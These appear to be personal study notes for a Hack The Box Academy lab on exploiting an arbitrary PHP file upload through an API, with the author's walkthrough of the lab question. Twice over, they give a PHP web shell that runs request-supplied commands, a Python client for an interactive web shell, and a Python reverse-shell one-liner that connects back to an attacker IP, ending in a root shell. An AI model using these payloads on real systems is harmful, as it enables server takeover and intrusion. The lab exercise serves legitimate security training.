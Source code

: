 ```yaml
---
sticker: emoji//1f480
---
```

Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

---

## PHP File Upload via API to RCE

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing an application residing in `http://<TARGET IP>:3001`.

When we browse the application, an anonymous file uploading functionality sticks out. 

![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.


```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

Code: python

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Use the script as follows.


```shell-session
smoothment@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.


```shell-session
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

# Question
---

![](Pasted image 20250219162424.png)
Let's begin by going into the application:

![](Pasted image 20250219162641.png)


We can upload files, let's upload a file named `backdoor.php` with the following contents:

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![](Pasted image 20250219162652.png)

Let's use this python script to interact with our webshell:

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Now, let's use it:

```shell-session
python3 web_shell.py -t http://10.129.27.149:3001/uploads/backdoor.php -o yes
```

We get a shell:

![](Pasted image 20250219162817.png)

We can try moving it to netcat, let's set up a listener and use the following:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

We get this:
![](Pasted image 20250219164104.png)

We got a shell in netcat, now, let's read the hostname:

```
root@nix01-websvc:/app/php/uploads# cat /etc/hostname

nix01-websvc
```

Answer is:

```
nix01-websvc
```
